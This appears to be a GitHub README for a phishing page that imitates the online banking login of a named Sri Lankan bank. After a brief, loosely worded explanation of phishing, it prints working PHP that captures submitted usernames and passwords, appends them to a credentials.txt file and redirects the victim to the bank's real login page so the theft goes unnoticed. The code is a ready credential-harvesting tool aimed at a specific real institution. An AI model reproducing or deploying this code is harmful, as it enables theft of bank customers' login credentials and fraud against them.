 # phishing


What phishing website does?

Phishing is get sensitive data like passwords, credit card details using fake websites and emails. This is the good example to social 
engineering because this fake website same as the original web site. So user easily caught this unauthorized websites. 

for futher informations visit  https://unalupotha.blogspot.com/

How this web page work?

Once you visit this website you enter your user names passwords. All that cridentials can collect using txt file. This webpage create  
using html and php. 

Using this collect user cridentials and redirect them to that txt file.

<?php
 $username = $_POST["username"];
 $password = $_POST["passwd"];
 
 //Get credentials to .txt file
 $myfile = fopen("credentials.txt", "a") or die("Unable to open file!");
 $txt = "USERNAME = $username , PASSWORD = $password\n";
 fwrite($myfile, "\n". $txt);
 fclose($myfile);
 
 //Redirect the browser to original login page
 header("Location: https://www.ebank.peoplesbank.lk/eb/index.html");
 
 exit();

?>






